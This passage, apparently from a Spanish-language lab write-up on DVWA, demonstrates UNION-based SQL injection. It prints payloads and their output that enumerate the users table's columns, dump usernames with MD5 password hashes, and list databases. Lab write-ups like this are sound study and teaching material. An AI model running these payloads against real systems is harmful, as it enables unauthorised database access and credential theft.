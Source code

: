 ```sql
Surname: 

ID: ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' #
First name: password
Surname: 

ID: ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' #
First name: avatar
Surname: 

ID: ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' #
First name: last_login
Surname: 

ID: ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' #
First name: failed_login
Surname: 
```
Podemos ver el nombre de usuario junto su correspondiente contraseña (aunque está hasheada)

```sql
' UNION SELECT user, password FROM users #
```

```sql
ID: ' UNION SELECT user, password FROM users #
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99

ID: ' UNION SELECT user, password FROM users #
First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03

ID: ' UNION SELECT user, password FROM users #
First name: 1337
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b

ID: ' UNION SELECT user, password FROM users #
First name: pablo
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

ID: ' UNION SELECT user, password FROM users #
First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```

Las bases de datos disponibles
```sql
' UNION SELECT schema_name, NULL FROM information_schema.schemata #
```

```sql
ID: ' UNION SELECT schema_name, NULL FROM information_schema.schemata #
First name: information_schema
Surname: 

ID: ' UNION SELECT schema_name, NULL FROM information_schema.schemata #
First name: dvwa
Surname: 
```
